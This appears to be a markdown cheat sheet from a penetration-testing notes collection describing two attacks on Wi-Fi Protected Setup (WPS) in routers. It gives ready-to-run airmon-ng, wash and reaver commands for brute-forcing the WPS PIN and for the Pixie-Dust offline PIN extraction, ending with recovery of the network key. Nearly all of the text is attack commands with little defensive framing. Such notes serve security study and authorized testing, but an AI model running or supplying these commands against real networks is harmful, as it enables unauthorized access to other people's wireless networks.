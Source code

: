 # WPS
> Wi-Fi Protected Setup (WPS) is a feature supplied with many routers. It is designed to make the process of connecting to a secure wireless network from a computer or other device easier.


## Brute-Force

> WPS can be attacked using a brute-force on the PIN (has only about 11,000 valid combinations).

**1.** Set Wireless adapted to monitor mode.

```bash
airmon-ng start wlan0
```

**2.** Run a tool like _wash_ to identificate candidate WPS enabled networks (note the BSSID and channel).

```bash
wash -i wlan0mon
```

**3.** Use reaver to crack the PIN (care with lockdowns).

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -vv
```

**Note:** Reaver is smart enough to remember where it was, and will ask you if you want to resume an interrupted session. So the cracking can be done in a number of sessions.

_____

## Pixiedust

> While the WPS brute force attack has largely been defeated by rate-limiting, we can use a tool called Pixie-Dust, to attempt offline extraction of the pin after recovering just one handshake from the WPS negotiation. We don't need to use the Pixie-Dust tool itself, because Pixie-Dust attack has been integrated into Reaver (using the -K option).

**1.** Set the external antenna into monitoring mode.

```bash
airmon-ng start wlan0
```

**2.** Get the BSSID of the access point

```bash
wash -i wlan0mon
```

**3.** Run reaver over the selected target specifying the Pixie-Dust attack.

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -K 1 -vv
```

**4.** Reaver has started its attack. It associates with the AP and then tries a pin of 12345670 and initiates its authentication handshake. If it finds the PIN, Reaver is again invoked with the pin to associate with the AP. If everything is OK, after a couple of minutes Reaver will recover the network key.
